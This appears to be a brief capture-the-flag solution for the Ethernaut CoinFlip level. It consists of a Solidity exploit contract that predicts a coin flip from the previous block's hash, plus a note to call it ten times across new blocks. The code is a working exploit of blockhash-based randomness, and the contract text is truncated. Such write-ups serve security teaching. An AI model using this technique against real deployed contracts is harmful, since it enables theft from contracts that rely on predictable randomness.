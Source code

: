 Deploy the following contract to the same network

```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.6.0;

  interface CoinFlip {
      function flip(bool) external returns (bool);
  }

contract Exploit {

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function exploit(address _who) public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(_who).flip(side);
    }
```

call exploit() 10 times, making sure to wait enough for a new block
